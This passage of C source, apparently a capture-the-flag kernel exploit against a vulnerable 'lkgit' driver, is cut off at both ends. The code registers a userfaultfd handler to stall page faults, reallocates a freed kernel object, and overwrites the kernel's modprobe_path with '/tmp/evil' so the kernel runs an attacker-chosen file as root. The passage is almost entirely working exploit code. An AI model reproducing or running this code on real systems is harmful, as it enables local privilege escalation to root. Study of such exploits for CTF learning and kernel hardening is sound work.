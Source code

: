 ```exploit.c
      puts("[+] trying to realloc kfreed object...");
      if ((seqfd = open("/proc/self/stat", O_RDONLY)) <= 0) {
        errExit("open seq_operations");
      }

      // trash
      uffdio_range.start = msg.arg.pagefault.address & ~(PAGE - 1);
      uffdio_range.len = PAGE;
      if(ioctl(uffd, UFFDIO_UNREGISTER, &uffdio_range) == -1)
        errExit("ioctl-UFFDIO_UNREGISTER");
    } else {
      printf("[+] target == modprobe_path @ %p\n", (void*)kernbase + off_modprobepath);
      strcpy(content_buf, "/tmp/evil\x00");
      conflict_during_fault(content_buf);

      puts("[+] trying to realloc kfreed object...");
      long *buf = calloc(sizeof(long), sizeof(hash_object) / sizeof(long));
      for (int ix = 0; ix != sizeof(hash_object) / sizeof(long); ++ix) {
        buf[ix] = kernbase + off_modprobepath;
      }

      char content_buf[FILE_MAXSZ] = {0};
      char hash_buf[HASH_SIZE] = {0};
      strcpy(content_buf, "uouo-fish-life\x00");
      hash_object req = {
          .content = content_buf,
          .message = (char*)buf,
      };
      assert(ioctl(lkgit_fd, LKGIT_HASH_OBJECT, &req) == 0);
      printf("[+] hash: %s\n", hash_to_string(req.hash));

      // write evil message
      puts("[+] copying evil message...");
      char message_buf[PAGE] = {0};
      strcpy(message_buf, "/tmp/evil\x00");
      uffdio_copy.src = (unsigned long)message_buf;
      uffdio_copy.dst = msg.arg.pagefault.address;
      uffdio_copy.len = PAGE;
      uffdio_copy.mode = 0;
      if(ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
        errExit("ioctl-UFFDIO_COPY");
    }

    break;
  }

  puts("[+] exiting fault_handler_thrd");
}

void register_userfaultfd_and_halt(void)
{
  puts("[+] registering userfaultfd...");

  long uffd;      // userfaultfd file descriptor
  pthread_t thr;  // ID of thread that handles page fault and continue exploit in another kernel thread
  struct uffdio_api uffdio_api;
  struct uffdio_register uffdio_register;
  int s;

  // create userfaultfd file descriptor
  uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK); // there is no wrapper in libc
  if(uffd == -1)
```